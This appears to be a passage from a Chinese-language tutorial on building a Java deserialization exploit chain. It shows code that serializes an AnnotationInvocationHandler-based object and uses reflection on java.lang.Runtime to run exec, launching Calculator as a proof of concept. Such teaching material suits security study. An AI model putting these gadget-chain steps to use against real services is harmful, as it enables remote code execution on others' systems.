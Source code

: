 #### [](#238-%E8%BF%9B%E4%B8%80%E6%AD%A5%E5%AE%8C%E5%96%84)2.3.8 进一步完善

通过构造 AnnotationInvocationHandler 类，来创建反序列化利用链的起点，用如下代码将对象序列化：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```java<br>ByteArrayOutputStream barr = new ByteArrayOutputStream();<br>ObjectOutputStream oos = new ObjectOutputStream(barr);<br>oos.writeObject(obj);<br>oos.close();<br>``` |

但是，在经过序列化时，抛出异常：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108271008846.png-water_print](assets/1699411715-707b5696a538ef881f42ad64f61ee92d.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108271008846.png-water_print")

在本系列的第一部分描述过，`java.lang.Runtime` 这个类没有实现 `Serializable` 接口，无法序列化。因此，需要通过反射来获取当前上下文中的 `java.lang.Runtime` 对象。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```java<br>Method m = Runtime.class.getMethod("getRuntime");<br>Runtime r = (Runtime) m.invoke(null);<br>r.exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator");<br>``` |

转换成 Transformer 的写法：
